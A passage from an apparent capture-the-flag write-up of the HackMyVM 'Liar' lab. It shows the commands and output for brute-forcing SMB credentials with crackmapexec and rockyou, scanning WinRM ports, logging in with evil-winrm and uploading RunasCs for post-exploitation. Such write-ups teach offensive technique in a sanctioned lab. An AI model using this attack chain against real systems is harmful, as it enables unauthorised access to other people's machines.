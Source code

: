 The brute-force attack yields a second user on the target i.e. `akanksha`. We can perform a second password brute-force against the SMB service for this username.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Liar/Misc File]
└─$ crackmapexec smb 10.0.2.30 -u akanksha -p /usr/share/wordlists/rockyou.txt | grep +
SMB                      10.0.2.30       445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\akanksha:<REDACTED> 
```

Now that we have the credentials of the local users on the system we can now attempt to connect remotely to the Windows host. One common method is by using WinRM service. But before we use it we need to scan the port to verify if it is open.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Liar/Misc File]
└─$ nmap -n 10.0.2.30 -p5986,5985                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-06 12:06 BST
Nmap scan report for 10.0.2.30
Host is up (0.00061s latency).

PORT     STATE  SERVICE
5985/tcp open   wsman
5986/tcp closed wsmans

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

Now that we know that WinRm port is open we can attempt to connect to WinRM using both accounts.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Liar/Misc File]  
└─$ evil-winrm -i 10.0.2.30 -u nica -p <REDACTED>                     
Evil-WinRM shell v3.5
<SNIP>

*Evil-WinRM* PS C:\Users\nica\Documents> ls ..

    Directorio: C:\Users\nica


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018   9:12 AM                Desktop
d-r---        9/26/2023   6:44 PM                Documents
<SNIP>
-a----        9/26/2023   6:44 PM             10 user.txt
```

We will notice that only Nica's account can connect to the Windows host remotely via WinRM. We can use this access to read the user flag on the target.

## Post Exploitation

We have a foothold on the target as the user Nica. Remember that we brute-force Akanksha's password. Since we cannot log into the target using this account we can use the [RunasCs binary](https://github.com/antonioCoco/RunasCs) to run specific processes with different permissions than the user's current logon provides using explicit credentials. We can upload the binary to the target using our current WinRM session.
```powershell
*Evil-WinRM* PS C:\Users\nica\Documents> upload RunasCs.exe                                    
Info: Uploading /home/pentester/Desktop/HackMyVM/Liar/Misc File/RunasCs.exe to C:\Users\nica\Documents\RunasCs.exe
                                         
Data: 68948 bytes of 68948 bytes copied
                                         
Info: Upload successful!
```
